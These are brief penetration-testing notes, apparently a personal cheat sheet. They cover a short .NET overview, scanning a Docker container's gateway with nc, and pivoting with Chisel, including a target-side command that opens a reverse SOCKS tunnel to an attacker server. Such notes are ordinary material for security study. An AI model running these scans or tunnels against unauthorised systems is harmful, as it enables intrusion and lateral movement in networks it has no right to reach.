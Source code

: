 # .NET
Consists of two parts.
- .NET Framwork (Windows only)
- .NET Core (Cross-Compatible)
these can be compiled into assemblies and then into .exe and .dll's

# Docker? Now what
Check networks with ifconfig
get the default gateway and do a ping sweep with nc
```bash
nc -zv 192.168.100.1 1-65535
```

# Pivioting
## Chisel 
attacker:
```bash
./chisel server -p 8000 --reverse
```
target:
```
./chisel client <SERVER IP>:8000 R:socks
```
